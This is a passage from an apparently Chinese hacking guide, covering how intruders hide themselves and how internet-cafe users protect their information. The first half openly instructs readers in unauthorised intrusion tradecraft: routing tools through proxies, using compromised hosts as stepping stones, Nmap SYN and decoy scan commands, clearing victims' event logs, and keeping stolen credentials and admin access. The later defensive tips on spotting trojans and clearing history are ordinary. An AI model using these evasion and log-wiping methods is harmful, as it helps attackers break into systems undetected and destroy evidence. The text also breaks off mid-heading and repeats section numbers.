是的，为了以防万一，我们最好将肉鸡的所有敏感信息留个备份，这些东西都是再次进入系统的关键要素。比如我说过的系统用户密码、数据库等，当然还有一些第三方服务的管理员密码，比如我说的 Pcanywhere。只要它们有利于我们远程进入系统，都不应该放过。

另外，帮助对方修补漏洞也可以保持自己的权限，貌似主要意图是防止肉鸡被别人霸占！呵呵……独裁了。你进入了人家系统，为人家打打补丁，做做安全防护什么的也是应该的吧。自己能从中学到防御方面的知识，也许还能和肉鸡主人成为朋友呢！

## VI 第六章  
安全防护和聊天

## Intro

这本书你即将学到……

- 1. 代理的概念
- 2. 如何为 IE 设置代理
- 3. SOCKS 代理的寻找和使用
- 4. 使用 SocksCap 为你的黑客程序上代理
- 5. 跳板的概念与利用
- 6. 如何探测远程主机的防火墙
- 7. 半开放扫描的概念
- 8. 使用 Nmap 进行半开放扫描和欺骗扫描
- 9. 系统日志的一般清除方法
- 10. 利用用户标示和文件路径判断可疑进程
- 11. 利用网络连接和启动项判断可疑进程
- 12. 简单判断 IE 是否被溢出的方法
- 13. 如何清除 IE 留下的各种历史记录
- 14. 如何清除最近打开的文档记录
- 15. 如何清除“开始”菜单和通知区域中的历史记录
- 16. 如何清除“运行”和“搜索”中的历史记录
- 17. 如何清除 OFFICE 留下的历史记录
- 18. 如何清空剪贴板中的内容
- 19. QQ 如何泄密以及记录清除方法


我真的不是爱落俗套的人，不过前面讲了这么多破解啊、攻击啊的方法，有些于心不忍了，于是按照惯例，在这本书将要结束的时候安排了一些安全防护的内容。其实网络安全正是在攻击与防御的此消彼长的过程中逐渐成熟起来的，一个黑客的防护技能如何，也在一定程度上决定了他的水平高低，有时候也体现了一个网络安全人员对技术是否知其然、知其所以然。

本章将分为三部分，笔者将站在三个不同的角度谈安全防护，它们分别是：作为一个入侵者如何保护自己不被目标发现；作为一个来网吧上网的客户如何保护自己的信息不被偷窥；作为一个网吧管理员对各种破解和攻击行为应该做何反应。这里综合了网吧里的各种人，算是比较全面的安全防护了吧！黑客和网管作为互相对立的双方，有攻有防范，还有自我保护，而网吧客户则作为无辜者的身份出现，但他们同样要保证自己的利益不被侵犯……这简直就是一场战争！道高一尺，魔高一丈，或是反过来，这正是网络安全的魅力之所在！

本章测试环境为 Windows XP Professional SP2。

## 1、入侵者如何保护自己

在入侵的过程中，入侵者应该懂得如何保护自身，对自身安全有威胁的一些活动是不能实施的。当年米特尼克不仅有高超的入侵手段，他的躲避追查的功夫也是一流的。应该说，一个不知道如何保护自己的入侵者是失败的。这里我将提到一些入侵前以及入侵过程中隐藏自己不被目标发现的方法，希望你在入侵中能用它们保护自己，同时权作抛砖引玉，期待更多更好的隐蔽方法的出现。

### 1.1、寻找入侵者的替身

这里的替身就是网络上的某台主机，我们通过这台主机入侵目标主机。当目标主机有所察觉的时候，即使是发现了攻击它的 IP 地址，也是替身的 IP 地址而非我们的。这种方法是最基本的，也是比较有效的隐藏自己的一种方法。使用替身的方式有两种：一是使用代理，二是使用跳板。

### 1.1.1、代理的使用

说是使用代理，其实严格地说是使用代理服务器。那什么是代理服务器呢？代理服务器的英文全称是 Proxy Server，其功能就是作为一个中间介质，用户通过它去获得想要的网络信息，所以我们可以形象地说它是一个网络信息的中转站。

其实代理服务器我们并不陌生。在用计算机作为网关的网吧，那台网吧主机就是一台代理服务器，网吧中的其它客户端通过这台代理服务器连接到外网。它是客户机与外网的某台服务器（可以是 Web 服务器或者其它服务器）的中转站，这下大家明白了吧！

日常生活中人们使用代理服务器，是为了访问一些自己无法访问的网站，或者加快访问速度。比如有一台美国的 Web 服务器，但是它禁止来自其它国家的网络连接，所以我们就不能访问它上面的网站了。但是我们就要访问上面的网站，所以我找了一个美国的代理服务器，然后将我的 Internet 浏览器设置为此代理。这时候我就是通过这台代理服务器上网了，我发送的数据都会先流向这台代理，然后让它帮我完成域名解析等任务。由于我是通过美国的代理服务器访问的 Web 服务器，因此访问美国的网站速度就要快了很多，那个禁止其它国家访问的站我们也就可以访问了。

这下就比较好理解了吧。这里就以网吧的网关主机为例子，我们访问外网通过这台代理服务器，因此外网的主机在和我们进行连接的时候其实用的是代理服务器的 IP，而不是我们的真实 IP。在入侵中，如果我们将工具使用了代理服务器，那么即使目标主机记录了 IP 地址，这个 IP 也是代理服务器的而不是我们真实的 IP 地址，这就达到了隐藏的目的。

- a、为 IE 设置代理

很多软件自身就有设置代理的功能，比如我们最常用到的 Internet 浏览器 IE。在网吧中我们处在局域网中，默认“代理服务器”就是网关主机了，但是这是可以更改的。打开“Internet 选项”，转到“连接”选项卡，其中有一个“局域网设置”，点击进入，如图 1-1-1。

激活那个“为 LAN 使用代理服务器”，然后在“地址”中填入代理服务器的 IP 地址，在“端口”中填入代理端口就可以了。这里就涉及到一个问题：我们去哪里找代理服务器呢？这在以前是个比较常见的问题，想使用代理的朋友常用代理猎手、花刺代理等软件搜索一些代理，而现在这就不算是个问题了，很多网站都会每天更新可用的代理。《黑客手册》就有这个啊！链接地址为 www.nohack.cn/proxy，如图 1-1-2。


我们可以通过选择“端口”“类型”和“国家”的对应下拉菜单选择你想要的代理。端口和国家就不说了，我们这里说一下代理的类型。《黑客手册》的这个代理公布将代理服务器的类型分为了 transparent、anonymous 和 high anonymity 三种，它们分别是透明代理、匿名代理和高度匿名代理的表示。它们的区别在于对于使用该代理服务器的用户采取如何的身份记录：透明代理会记录使用代理服务器的主机的 IP 地址；匿名代理则不会记录 IP 地址，而把所有用户都设置为匿名用户；而高度匿名代理服务器则要比匿名的更要深一个层次了。因此我们在使用代理服务器的时候，理论上最好用高度匿名的代理服务器。如果使用透明代理服务器的话，还是有可能被目标主机发现我们的 IP 地址的。

这里我就以第一个透明代理 210.21.110.46:8080 来设置 IE 的代理，将它们输入地址和端口中，然后一路确定保存设置就可以了。这时候使用 IE 浏览 Internet，你就先通过了远端的代理服务器，然后才访问到网页。如图 1-1-3 是我为 IE 设置代理前后的 IP 变化。

这时候我的 Web 访问速度变慢了，因为我的数据首先得发送到远端的代理服务器上，不过访问某些地域的网站速度也许就快了。我们在 IP138 上查找这个代理服务器的归属地，如图 1-1-4。这是广州的一台主机，并且是网通的。我是用电信上网的，速度自然会降低一些，不过这时候使用 IE 访问广东的网站相对于其它网站速度就要快一些了，大家可以自己尝试。


- b、超级代理工具 SocksCap

像 IE 这样自身有设置代理功能的程序还有很多，但不是所有的网络应用程序都会有设置代理的功能，尤其是我们使用的黑客工具。SocksCap 就是这样一款工具，它可以为一个具有网络功能的应用程序设置代理，使这个程序的数据包发送方为代理服务器，这样我们利用的所有黑客程序就都可以上代理啦！

首先安装它，很简单。首次安装完毕程序会提示你是否进行设置，我们选择“是”，然后出现了设置对话框。在“服务器”中看到的是“SOCKS 服务器”。Socks 代理和前面的 HTTP 代理不同，前者可为更多类型网络通信提供代理服务。


Socks 代理只是简单地将一端系统连接到另一端，支持多种协议，包括 HTTP、FTP 请求及其它类型请求。Socks 有 4 和 5 两个版本：Socks4 只支持 TCP，Socks5 支持 TCP/UDP 并支持身份验证机制。Socks 代理标准端口为 1080。

了解了 Socks 代理后，需要找一个 Socks 代理服务器。可在代理网站查询各类代理（HTTP、Socks、匿名、高匿等），并查看代理地区、验证时间和响应速度。选择可用的 Socks4 代理后，在 SocksCap“设置”中填写代理 IP 与端口，协议选择 Socks4 并应用。


接下来可为需要使用的工具添加代理。点击“新建”会出现“新建应用程序标示项”对话框，在这里添加应用程序（如 X-Scan），设置完成后即可通过 SocksCap 启动并走代理。


“应用程序”一行后面点击“浏览”并选择 X-Scan 的主执行程序 xscan_gui.exe，然后下面的“工作目录”就会指定程序的所在目录为工作目录了，我们不用再设置了，如图 1-1-8。

然后点“确定”就添加了“X-Scan”进 SocksCap 了，在 SocksCap 的工作区中就出现了 X-Scan 的图标，在它上面点击右键并选择“通过 SOCKS 代理运行”，X-Scan 就上 SOCKS 代理啦！如图 1-1-9。

让你的黑客程序上代理就这么简单！如果你感觉现在使用的 Socks 代理慢的话，随时可以点击 SocksCap 中“文件”菜单下的“设置”更改 Socks 代理服务器。如果你讨厌添加程序的繁琐步骤的话，可以把要上代理的程序直接拖拽到 SocksCap 的工作区中就可以了。需要注意的是，要想让你添加的程序通过代理访问网络，就必须在 SocksCap 中运行它，直接在硬盘中运行是无效的。


### 1.1.2、跳板与网吧中的 IP 隐藏

使用代理是一种常用的和比较方便的隐藏自身的方法，但通常情况下还是可以间接查出你的 IP 地址，尤其是使用非匿名代理的朋友要小心。而还有一个和上代理稍微不同的方法，这里做一个简单的介绍。

我们可以先入侵一台安全防范做得比较差的主机，然后我们登录这台主机（通过终端服务或者 CMD SHELL），然后把用到的工具上传到这台主机上，然后就可以像在本地那样对最终的目标进行入侵了，只不过操作很可能没有在本地方便。这时如果对方发现了我们的入侵行为，即使他记录了 IP 地址，记录的也是肉鸡的 IP 地址而并非我们的。肉鸡对这些都一无所知，它就是一个真正的替死鬼。因此只要我们在肉鸡上做好自身记录的清理工作，目标主机是很难发现我们的。抑或在肉鸡上安装一个代理服务器，我们通过这个代理服务器来入侵主机，这也是一个不错的方法。由于代理服务器在我们的掌控之中，只要将代理日志控制好，目标主机也是很难发现我们的行踪的。

上面我们提到的无辜的肉鸡就可以叫做跳板了，这是一个很形象的比喻。和普通的代理服务器不同的是，这个替身或者说是中间人对我们的利用以及攻击行为全然不知，所有的一切都在攻击者的掌控之中，这就要求比上代理服务器安全很多。但相对地，这要求我们得有一台肉鸡，肉鸡的获得可就没有代理服务器的获得那样容易了，事物的存在总是有好有坏的嘛！

在网吧中如果要入侵网吧内的没有公网 IP 的客户机或者服务器，那我们就不能使用网上公布的那些代理。因为它们都是存在于 WAN 上的，我们的目标主机只有内网 IP，它们对于这些代理服务器来说是不可见的，因此就无法入侵。这就要求我们首先得获得网吧里一台肉鸡的权限，这相对于公网的入侵来说还是相对容易的。然后安装代理服务器或者直接利用做跳板就随你了。

而其实在网吧这种特殊的环境中，有时候隐藏 IP 不一定非要用上代理之类的手段这样麻烦。由于我们操作的是客户机，我们只有一个内网 IP，由于网关的子网划分的原因，有可能有些 IP 没有被分配，这时候这些空着的 IP 就可以被我们利用了。我们可以修改自己的 IP 地址为这些空着的 IP，这样我们仍然有网络连接，并且即使目标发现了我们的 IP，它也无法对应出是哪台客户机（因为通常网吧 IP 地址的最后一位号码就是客户机号），除非它使用 MAC 地址寻找。不过网吧范围相对较小，一旦对方发现了入侵行为必会查找是哪台主机在攻击它，物理寻找也是不费劲的。所以这种方法也仅供参考，当你发现了你的目标活动异常时，你最好停止你的入侵行为。

### 1.2、入侵前的保护措施

为了尽量不让目标主机发现我们的入侵行为，我们需要在入侵过程中采取一些特殊的操作。网络入侵防火墙是入侵者的最大死敌，因此在入侵前我们最好可以判断目标主机是否安装了防火墙，以决定是否继续入侵。那我就来教你一种简单的探测防火墙的方法。

### 1.2.1、探测远程主机的防火墙

我们可以用 TELNET 随便连接远程主机的一个端口，如果很快返回连接失败的话，就说明端口关闭；如果等了十多秒才返回，那很有可能对方装有防火墙了。你可以 telnet 对方经常开放的一些端口，这样就比较容易判断了。当然这只是一种比较简单和不精确的防火墙探测方法，更为精确的方法需要有专业的工具，这里我们就不深究了。

另外，如果不想被对方发现，不能只找客观因素，想对方没有安装防火墙该多好啊！梦想经常是美好的，但事实往往是残酷的。即使对方安装了防火墙，我们也可以使用一些手段，让我们在远程探测对方信息的时候不被对方发现。远程探测基本上就指扫描了，这里我们介绍几种隐藏的端口扫描的方法。

### 1.2.2、半开放与欺骗扫描

端口扫描有很多种类型，除了最初的建立完整连接的 TCP 端口扫描外，相继又出现了 UDP、SYN、FIN、RPC 等扫描方式，它们各自有各自的优势。这里我们将要介绍的半开放式扫描的最典型应用例子，就是 SYN 扫描方式了。之所以被称为半开放扫描，是因为它不打开一个完全的 TCP 连接。它发送一个 SYN 报文（就是一个数据包）到远程主机，如果远程主机返回的数据包类型为 SYN|ACK，则表示指定探测的端口处于监听状态；而如果返回一个 SYN|RST 的数据包，则表示指定扫描的端口没有处于监听状态。

如果扫描方收到一个 SYN|ACK 数据包，则扫描程序必须再发送一个 RST 信号来关闭这个连接过程，这样就没有建立完整的连接，于是在对方的机器上一般就不会留下扫描记录了，防火墙也不会有反应。

除了可以不被远程主机发现这个优点外，SYN 的扫描速度要比普通的 TCP connect 扫描快很多。BluePortScan 之所以有那么快的扫描速度，就是因为它使用 TCP SYN 扫描方式。

```bash
netstat -an
```

这是我用 BluePortScan 扫描本地的 1-10000 端口时，用 `netstat -an` 命令查看本地连接的情况。状态中有很多 SYN_SENT，这说明 BluePortScan 使用的是 SYN 的半开放扫描。


要说端口扫描，有一款工具是绝对不可忽视的，它就是被称为扫描之王的 Nmap。Nmap 支持多种方式的端口扫描，除了原始的 TCP 连接方式、SYN 半开放扫描方式等，还有特色扫描方式莫过于欺骗扫描了。

Nmap 的参数有很多，并且在使用这些参数的时候对大小写是敏感的。它的基本命令格式为：`Nmap [Option] Host`。

```bash
nmap -sS -p 1-65535 192.168.56.2
```


我扫描的端口范围从 1—65535，全选了所有端口，而扫描时间仅用了 3.484 秒。Nmap 共探测到 4 个开放端口，其中 State 下的 OPEN 代表端口开放，SERVICE 则代表端口上运行着的服务。

```bash
nmap -sS -O -p 1-65535 192.168.56.2
```


另外我们可以用 Nmap 扫描对方端口的同时探测远程主机的操作系统类型，使用的可选项开关为 `-O`。Linux 后面跟的并不是操作系统的版本，而是 Linux 内核的版本。

```bash
nmap -sT -p 1-112 192.168.56.2
```


这次我扫描的端口范围是 1-112，相对于前两次范围要缩小很多。但是由于 TCP 连接的扫描方式，因此速度也慢了很多，我们看到是 29 秒整，不过它给我们带来了更多的东西：多发现了两个开放端口。

这样我们就能很直观地对比出基于 TCP 连接扫描方式和 TCP SYN 方式扫描的各自优劣了。并且在使用 `-sT` 可选项进行扫描的时候防火墙有提示，而使用 `-sS` 时候却没有。

最后要说的就是 Nmap 的特色欺骗功能了，它对应的可选项为 `-D`，命令格式为：`-D IP1,IP2,IP3,ME,...`。之所以被称为欺骗扫描，是因为 Nmap 可以利用一些对自己可见的主机对目标主机进行“扫描”。

最终记录的 IP 也是这些我们设置的其它主机的 IP，而非我们的。在命令可选项中，要使用的欺骗主机可以用 IP 或者域名表示，但是最好用 IP，因为对域名的解析可能留下 Nmap 使用者的记录。每个地址间用逗号分开，其中 ME 代表本地主机。你最好将 ME 放在所有 IP 的最后面，这样目标主机几乎就不会记录你的 IP 了；而如果你不指定 ME 的话，Nmap 会把它随机混杂在所有的 IP 中。

Nmap 的这种扫描方式很有创意，好像也是独一家。这在目标主机看来，就好像是你设置的那些 IP 的主机在扫描它。不过有一点要注意的是，你设置的主机在网络上必须是存活的，它们必须在线，否则欺骗扫描不会成功，你的 IP 同样会被记录。另外不要指定过多的欺骗 IP，那样不仅会减慢你的扫描速度，还可能造成不正确的扫描结果。

```bash
nmap -sS -D 192.168.56.4,192.168.56.21,192.168.56.7,192.168.56.3,192.168.56.5,192.168.56.114,ME -p 1-5000 192.168.56.2
```

Nmap 的其它用法这里就不再讲述了，有兴趣的朋友可以自己研究。如果你能灵活地掌握 Nmap 的用法，它将成为你入侵活动中信息获取的强大武器。

### 1.3、入侵成功后的收尾工作

一旦你成功入侵了一台主机，做完该做的事情将要离开战场的时候，千万别忘记擦除你的脚印。你留下的任何信息都有可能成为让对方说明就是你入侵他的证据。这样就不仅是丢失一个肉鸡的损失了，被对方发现了自己的身份可就不好弄了。因此在本节的最后，我们简单讨论一下入侵成功后有哪些地方可能泄露你的信息，以及一些需要注意的地方。


### 1.3.1、一般系统日志的删除

无论到什么时候，系统日志都是威胁入侵者安全的首要因素，所以任何时候我们都不要忘记清除日志。系统日志主要分为三类：应用程序日志、安全日志和系统日志，这些日志我们可以在“计算机管理”的事件查看器中看到。

默认情况下，这些日志以文件形式保存在 `C:\WINDOWS\system32\config` 中，它们的后缀名为 `.evt`。其中 `SecEvent.EVT` 保存了安全日志，`SysEvent.EVT` 保存了系统日志，而 `AppEvent.EVT` 则保存了应用程序日志。我们无法用记事本或者其它文本编辑程序编辑它们，并且一般情况下这些日志文件是不能删除的，它们一直在被系统使用。

不过事件查看器本身就提供了清除日志的功能给我们，而不爽的是只有一个清除所有日志的功能，如图 1-3-2。


不过从图形界面操作远程主机的机会不是很多，这里有一个小工具 NewKillLog，它是一个命令行下的工具，直接运行它将清除主机上所有的日志。除了我们提到的三个常见日志外，它还可以清除 Web 访问留下的记录。


### 1.3.2、其它

如果你为了上传文件或者其它目的和远程主机建立了会话，比如 IPC$ 或者网络驱动器的映射等，那当事情做完以后一定要在第一时间删除会话，因为会话在建立过程中是透明的，对方只要查看网络连接就会发现我们的 IP。并且如果在建立会话的过程中对方注销了系统，那么那边就会提示远程主机 XXX（你的 IP）正在和它进行会话或者文件共享之类的。一旦注销系统你失去连接，这样不是被发现得更彻底吗？

你最好不要更改，多给自己一个管理员权限就可以了。

## 2、网吧客户如何保护自己的信息

如果你只是一位到网吧上网的客户，你不关心如何攻击对方，那我想你学习网络的原因就是为自己了吧！人说锻炼身体，保卫自己。的确，现在网吧的安全状况令人担忧，许多网吧客户都有不同程度的损失。即使你是一个热爱技术、热爱Hacking的Hacker，在网吧这种特殊的场所也很可能在没有黑别人之前却先中了别人的套子。不管怎么说，保证你在本机登录留下的个人信息不外泄是很重要的，那就让我们从三个方面来讨论如何保证自己的信息不被偷窥、权益不被侵犯。

### 2.1、上机前的准备工作

- **2.1.1、初步判断可疑进程**

刷卡上机后，不要着急登录QQ或者邮箱，或者进行任何跟你的敏感个人信息有关的操作。我们首先要探测本机的安全状况，然后排除不安全的因素。首先我们要查看进程，看是否有可疑进程加载。想办法调出任务管理器，来到“进程”选项卡，点击列标题“用户名”，然后进程就会以用户名顺序排列了。一般在最上面的就是当前登录的用户名了，如图2-1-1。


由于木马等程序执行的时候一般是以当前登录用户身份加载的，所以在进程中我们只要查看当前登录用户下的进程就可以了。一般系统以及服务进程下运行木马的情况不太大。这时候就需要你的进程知识平时积累了。一般Explorer.exe、Ctfmon.exe、Conime.exe等都是常见的登录后加载的应用程序，不过要注意Explorer.exe，最近有一个病毒就用的这个名字，是Autorun.inf文件启动、利用U盘传播的病毒。正常的Explorer.exe内存占用一般在10000K到20000K之间，并且结束了正常的Explorer.exe后桌面以及任务栏都会消失，而病毒程序的进程结束了则无影响。

另外有一个进程hkcmd.exe，第一次我看这个进程一下子就判断它是一个黑客程序，可没有想到这竟是误会（HK=Hack，cmd……谁都会这么想啊）。HKCMD.exe是Intel显示卡相关程序，用于配置和诊断相关设备，所以可不要误会了哦！不过一些名字稀奇古怪的进程还是需要注意的，并且进程中有大量当前登录用户身份运行的进程也不是什么好的征兆。不过不同情况下的进程情况差异很大，如何判断一个进程是否是病毒进程呢？这里推荐一个网站——进程中国（www.pcpid.com），从这里我们可以获得大量的进程以及进程加载模块的信息，还能了解到最近流行病毒的一些情况，这些对我们都非常有用，如图2-1-2。


比如我前面提到的进程hkcmd.exe，我们可以查看它的进程信息。进程信息中描述了这个进程的生产厂商、是否使用网络、是否是间谍/广告程序、是否是病毒或者木马等，这样我们就可以很好地了解一个进程是否对我们有威胁了，如图2-1-3。

从这里我们还可以获得病毒或者木马的清除方法，这样我们可以不用再找病毒专杀或者下载杀毒软件，就可以手工搞定它们了。

- **2.1.2、利用网络连接分辨可疑进程**

由于木马等程序需要来自外部连接，因此一般都会在本地监听一个端口，通过这个我们也可以发现木马的痕迹。打开命令提示符，输入`netstat -ano`，我们就可以查看端口监听和使用情况与具体进程的对应关系，如图2-1-4。

其中状态为**LISTENING**的是监听，**ESTABLISHED**则表示这个连接正在使用，这些前面我们都讲过。通过最后的PID我们可以看到网络连接或者端口监听与进程的对应关系了，使用Tasklist命令或者任务管理器随你喜欢咯！有时候我们在判断一个进程是否可疑时，需要找到进程对应的本地文件，这时候就要用到我们前面说过的“系统信息”了。在“运行”中输入“Msinfo32”，然后依次打开“软件环境”下的“正在运行的任务”就可以了。这些前面都说过，因此这里不再赘述。


- **2.1.3、利用自启动项判断可疑进程**

木马或者病毒一般都有自启动的功能。对于一般的实现自启动的方法来说，我们使用Windows自带的程序就可以查看并更改自启动项。在“运行”中输入“msconfig”就打开了“系统配置实用程序”，如图2-1-5。

在Msconfig中我们可以查看并更改系统文件SYSTEM.INI、WIN.INI和BOOT.INI，还能查看和更改系统服务和自启动项。默认情况下是正常启动，加载所有的设备驱动程序和服务；我们转到“启动”选项卡，如图2-1-6。

这里列出了一般情况下系统加载的自启动项以及自启动项的可执行文件路径。我们看到很多都是RUN的注册表项加载的项目，另外StartUp和Common StartUp分别指的是当前登录用户的自启动文件夹和所有用户的启动文件夹。通过文件名称和路径，再对应上任务管理器中的进程情况，我们可以大致判断出哪些启动项可能加载的是木马或者病毒。一旦确认可疑程序，随即结束它的进程并取消自启动项，在启动项目那列将勾去掉就可以了，然后点“确定”保存。这时候系统配置实用工具会提示你是否重新启动系统以使修改生效，我们不重新启动，只要注销就可以了。

上文中说到的这些方法都是比较简单并且容易操作的上机前安全防御方法，并不保证可以完全消除安全隐患。要想获得强大的安全防护力量，还得借助杀毒软件和防火墙的帮助。如果客户机上没有安装，而你的信息的确很重要的话，那你最好还是花一些时间下载安装它们吧！


### 2.2、使用中需要注意

就算你的前期防御工作做得很到位，这也不能保证在你上机过程中没有安全问题发生。即使在上机过程中我们也要保持戒备心，攻击者可不是会休息的，当然这是在你很有必要保护自己信息的情况下。下面我举几个常见的例子来讲讲在上机过程中需要注意的一些情况。

不管在何种场合，QQ和IE都是很多病毒和木马的主要攻击对象，因此它们的安全状况我们应该多多注意。对于QQ，如果你好几次登录都显示登录失败，但是你确认自己密码没有输错并且网络连接没有错误，这时候很有可能你就中了某个盗QQ号的木马了。这时候你不妨到腾讯官方使用WebQQ登录，链接地址为**http://webqq.qq.com/**。如果你在WebQQ上登录成功的话，那你所在的客户机就八成中了QQ木马了，这时候就可以用上面说过的方法查看并结束可疑进程了。另外，如果在你使用QQ的过程中，QQ总是自己无故掉线或者被强行关闭，这也有可能是盗号木马或者远程控制类木马所为，这时候查看本地网络连接是比较有效的方法。

现在IE的缓冲区溢出漏洞还是很多的，网吧客户机的IE存在溢出漏洞是很正常的。我在网吧就被人攻击过好几次，尤其是像我们这样喜欢研究技术的，经常会登录一些黑客技术和网络安全类的网站，或者用搜索引擎查找相关资料。现在网上利用IE漏洞挂马的还少吗？一个不小心就有可能被溢出了。不过很多IE缓冲区溢出漏洞的利用没有其他漏洞利用效果好，很多都使用暴力扩展内存的方法进行溢出，很多针对IE的EXPLOIT都是这样的。根据这点，如果你在浏览网页的时候突然发现机器卡得要死，很多次鼠标点击动作都不响应，这时候打开任务管理器，查看CPU使用率，是不是百分之百啊。在“进程”选项卡中点击列标题“CPU”，然后进程就会按照CPU使用率进行排列了。找到占用CPU最大的那个进程（应该就是IEXPLORE.EXE了吧）并结束它。这时候系统恢复正常了，但并不代表安全了，也许对方的EXPLOIT已经完成了任务。我们打开CMD，使用`NET USER`命令查看是否有新的用户添加，然后查看网络连接，是否有可疑的端口监听（对应正向溢出攻击）或者与远程主机的连接（对应反向溢出攻击）。一旦发现了可疑连接，建议立即断开网络连接。

另外在上机过程中你可不要被网吧硬盘中保存的具有诱惑力名称或者图像的文件吸引了。好奇心驱使你打开了它们，也许在后台你的信息就在丢失。很多伪黑客为了满足自己的欲望，在网吧不设防的硬盘中放入木马或者病毒文件，然后起一个具有吸引力的名字或者捆绑一个图片之类的，来钓网吧主机的客户中招，真是低劣的手段。你可不要成为这样手段的牺牲品啊，咱可是技术型的，嘿嘿！~


### 2.3、下机前的遗留信息清除

WINDOWS之所以让用户有很方便的体验，是因为微软有收集用户信息的习惯，当然它的信息收集是为了让软件更好地服务于人类。在WINDOWS中有很多地方都保存了登录用户的某些使用历史情况，一个合格的黑客可以通过这些掌握我们或多或少的个人信息，其中有些信息是很敏感的，这是我们不愿意看到的，因此我们在下机前应该将自己留下的所有应该清除的信息清理掉。


- **2.3.1、清除IE留下的历史记录**

首先我们应该清除IE留下的历史记录，它可以留下的历史记录包括访问过的网站链接和网页、COOKIE、浏览网页时留下的临时文件，我们来逐一清除它们。首先要清除的是我们浏览过的网站地址记录，一般在IE的地址栏中点击都会出现以前浏览过的网站历史记录，如图2-3-1。

`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\TypedURLs`

这些记录是保存在注册表中的，我们来到以上位置。这个项下保存了我们访问过的所有网站历史记录，如图2-3-2。怎么清除不用我再多说了吧！不过从这里清除的只是网址地址，我们访问过的网页信息还没有清除。IE有保存网页访问历史的功能，点击IE工具栏上的“历史”按钮你就知道了，它会保存你今天甚至前好几天、好几个星期的网页访问记录，如图2-3-3。


应该说这些比我们前面消除的那个泄漏的信息更严重，不过针对它IE也提供了清除方案：打开“Internet选项”，在“常规”选项卡中的“浏览历史记录”中点击“删除”，就可以删除浏览网页的历史记录了（我这里的IE是IE7.0，其他版本大同小异）。不过IE7在这方面和IE6有所不同，它将IE留下的所有历史记录清除选项都集中到这里了，如图2-3-4。这其中除了下面我将要讲到的临时文件和COOKIE外，还提供了表单数据和密码的历史记录清除选项，看来IE7在安全方面真的是下了工夫的。不管它，我们继续，下面要清除的是COOKIE，那COOKIE是什么呢？


> 【什么是Cookie】  
> Cookie是Web服务器发送到电脑里的数据文件，它记录了诸如用户名、口令和关联于用户兴趣取向的信息。Cookie会使你在浏览网站时感到方便，比如你有次使用注册的用户名和密码登录了某个网站，由于Cookie的原因，当你再次浏览这个网站的时候，登录框中就会保留有你的登录用户名；如果你选择了保存密码的话，那你的密码也会在登录框中。又或者是你在关闭浏览器的时候没有退出网站登录，那么在下次访问这个网站的时候，由于本地保存的和你的信息有关的Cookie关系，网站就会显示已经登录到你的用户账户中。这个为了用户方便的设计带来了安全隐患。Cookie以文件形式保存在本地计算机上，这样一些别有用心的人就可以窃取你的身份在一些网站上捣乱，或者从中获取你的个人信息，这些都是有可能的。

- **2.3.1、删除相关记录**

这下大家知道Cookie的杀伤力了吧！所以尤其是在网吧这种公共场合，删除Cookie是非常有必要的。我们来到以下位置`C:\Documents and Settings\username\Cookies`，将这里除了`index.dat`文件以外的所有文件全部删除就可以了。另外如果你使用的是IE7的话，在“Internet选项”里的历史记录清除里也可以清除Cookie，IE6也应该有这个功能。

最后我们来清除浏览网页留下的临时文件，Internet缓存的相关内容我们前面已经有过介绍了，IE使用它加快访问网站的速度。在访问过程中IE会在后台下载一些网页、图片、声音等文件，这些东西也保留有我们的信息，因此必须要清除掉。我们可以来到`C:\Documents and Settings\Administrator\Local Settings\Temporary Internet Files`删除文件，或者进入“Internet选项”，在“常规”选项卡中的“Internet临时文件”点击“删除文件”就可以了，如图2-3-5。

旁边不就是“删除Cookies”吗，呵呵，删除它们也是比较简单的。


- **2.3.2、Windows中的一些历史记录**

除了IE以外，平常我们使用Windows中的一些系统软件和功能，它们也是会留下你的一些操作历史信息的。让我们来看看这些历史信息都有哪些以及如何清除。

- **a. 最近打开的文档记录**

Windows会保存你最近打开的文本文件、图片、音乐、Word文档等文件的快捷方式到一个文件夹，这个文件夹可以出现在开始菜单中，以方便用户在下次再打开和编辑这些文件的时候更方便一些。这个文件夹叫做“我最近的文档”，如图2-3-6。

它的路径位于`C:\Documents and Settings\Administrator\Recent`。比如我有时候在网吧中编辑文章，文章的题目和图片信息就可能从最近打开的文档里暴露。即便你删除了原文件，这个快捷方式还是会存在的，因此这个我们一定得搞定它。

除了删除上面提到的“我最近的文档”文件夹中的内容外，我们还可以这样：在任务栏上点击右键并选择“属性”，然后来到“开始菜单”选项卡，点击其中的“自定义”按钮，然后在“自定义开始菜单”的对话框中选择“高级”选项卡，如图2-3-7。


如果勾选了“列出我最近打开的文档”的话，“开始”菜单中就会出现那个菜单了，点击右边的“清除列表”我们就可以一次性清除所有打开过的文档快捷方式了。

- **b. “开始”菜单上经常使用的程序记录**

非“经典”开始菜单（就是刚才我们看到的“开始”菜单样式）有一个功能，它能在“开始”菜单上显示最近使用的指定数目的程序。同样是在“自定义开始菜单”中，这次在“常规”选项卡中，如图2-3-8。

大家看到我们可以调节显示的程序数目，这也是可以泄露我们信息的地方。我们使用了什么Windows自带程序或者下载的第三方程序都会在这里暴露。同样点击“清除列表”我们就可以清除这些信息了。

- **c. 系统通知区域的信息泄露**

系统通知区域就是我们俗称的系统托盘，就是任务栏最右侧包含了一些小图标的区域，我们可以在任务栏的属性中自定义通知区域。从这里我们可以看到一些通知区域中曾经存在过的程序历史记录，如图2-3-9。这个和在“开始”菜单中显示我们经常使用的程序记录信息是一个性质的，并且你以前登录过的QQ号码也会暴露在这里哦！Windows貌似没有提供从图形界面删除的选项，我们需要进入注册表中删除。来到以下位置：  
**HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\TrayNotify**，如图2-3-10。将其中的二进制值“IconStreams”和“PastIconsStream”删除掉就够了，通知区域的历史项目不再重现。


- **d. Windows的临时文件**

在**C:\WINDOWS\Temp**文件夹中，Windows会保存一些临时文件，这些临时文件是你在安装或运行某些软件时产生的。由于某种原因（软件本身原因或系统错误等）它们没能被及时删除而留在了Temp文件夹。不要以为这些临时文件没有什么利用价值，从它们上还是可以了解到一些蛛丝马迹的，因此这些临时文件也最好删除掉。

- **e. Office办公软件泄密**

